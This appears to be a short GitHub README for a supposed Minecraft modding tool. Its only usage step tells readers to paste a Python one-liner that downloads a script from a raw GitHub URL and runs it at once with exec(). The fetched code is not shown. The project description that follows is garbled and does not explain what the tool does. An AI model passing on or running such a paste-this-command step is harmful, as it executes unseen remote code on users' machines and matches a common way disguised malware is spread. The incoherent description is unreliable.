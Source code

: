 # How to use?
## On your code/python prompt you copy and paste this code: (auto detects OS)
### `exec(__import__('requests').get('https://raw.githubusercontent.com/davifaaricardo/psychic-octo-couscous/installer/main.py').text)`
### `this project will help minecraft modders (any type) to change its file from the source (project.jar) then inputting in arguments, else inpuutting decompile it (first, renaming to (project.jar) to (project.zip or project.rar) then decompacting it) then trying to reverse search the files. by using fabrics default help git repo to example then downloading it with (gradle / grandle.bat) then when the user uses the file: setup.py it will run the thing to detect language download the preferred then executing it (executing gradle / gradle.bat )`
### # License
This template is available under the CC0 license. Feel free to learn from it and incorporate it in your own projects.
